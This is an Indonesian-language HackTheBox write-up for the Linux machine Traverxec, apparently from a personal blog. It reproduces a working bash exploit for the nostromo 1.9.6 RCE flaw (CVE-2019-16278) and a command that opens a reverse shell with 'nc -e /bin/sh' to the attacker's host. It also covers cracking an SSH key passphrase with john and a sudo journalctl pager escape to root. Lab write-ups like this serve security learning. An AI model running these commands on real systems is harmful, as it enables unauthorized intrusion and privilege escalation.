








# Traverxec (Linux)



HackTheBox Traverxec dengan OS Linux

### Enumeration

Mari kita lakukan enumerasi awal terhadap machine ini terlebih dahulu dengan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-07 00:01 EST
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   280.93 ms 10.10.14.1
2   280.96 ms 10.10.10.165
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.36 seconds
```

Ada service http di port 80 dan ssh di port 22. Hal yang menarik untuk dilihat adalah nampaknya website menggunakan aplikasi bernama nostromo 1.9.6

Mari kita buka sebentar webnya sebelum ngegas vulnerability buat nostromo 1.9.6 nya , just in case ada informasi tambahan


Tidak ada informasi yang berguna, kecuali mungkin ada user untuk di SSH bernama David White, mari kita cek vulnerability nostromo 1.9.6

Kita bisa melakukan RCE menggunakan script ini

[https://github.com/jas502n/CVE-2019-16278/blob/master/CVE-2019-16278.sh](https://github.com/jas502n/CVE-2019-16278/blob/master/CVE-2019-16278.sh)

```
#!/usr/bin/env bash
 
HOST="$1"
PORT="$2"
shift 2
 
( \
    echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
    echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
    echo "$@ 2>&1" \
) | nc "$HOST" "$PORT" \
  | sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```

```
./rce.sh 10.10.10.165 80 nc -e /bin/sh 10.10.14.251 1234
```

Dapat shell, mari dijadikan fully interactive dulu



Kita memiliki permission untuk masuk ke directory /home/david tapi tidak bisa melakukan ls

Mari kita mencari informasi di var/www nya website tersebut

Saya menemukan sebuah file configuration di /var/nostromo/conf

```
# MAIN [MANDATORY]
 
servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html
 
# LOGS [OPTIONAL]
 
logpid			logs/nhttpd.pid
 
# SETUID [RECOMMENDED]
 
user			www-data
 
# BASIC AUTHENTICATION [OPTIONAL]
 
htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd
 
# ALIASES [OPTIONAL]
 
/icons			/var/nostromo/icons
 
# HOMEDIRS [OPTIONAL]
 
homedirs		/home
homedirs_public		public_www
```

Ternyata ada directory di /home, tapi tadi sekilas kita tidak melihat ada public_www, jadi saya mencoba untuk masuk ke directory david dulu dan masuk ke public_www



Saya mengambil file ini kembali ke local machine saya menggunakan nc



Terdapat id_rsa jadi saya ubah ke format john untuk dilakukan dictionary attack terhadap passphrase dari id_rsa tersebut.



Passphrasenya id_rsa adalah hunter, mari login dengan ssh atas nama david



Di folder bin juga kita mendapatkan server-stats.sh dan yang menarik dari script ini adalah, script ini akan menjalankan journalctl dengan escalated priviledge.

Melihat bahwa journalctl ini adalah bin file, saya coba ke GTFOBins untuk mengecek adakan referensi yang mungkin bisa digunakan



Kita perlu mentrigger pager yang dihasilkan dari command less. Journalctl akan menggunakan less untuk menampilkan output, namun jika seluruh output sudah berhasil ditampilkan, pager less akan exit. Jadi kita harus memaksa less menampilkan output hanya sebagian, sehingga pager tetap terbuka dan memanggil bash dengan keadaan journalctl di run menggunakan sudo.



# Rooted !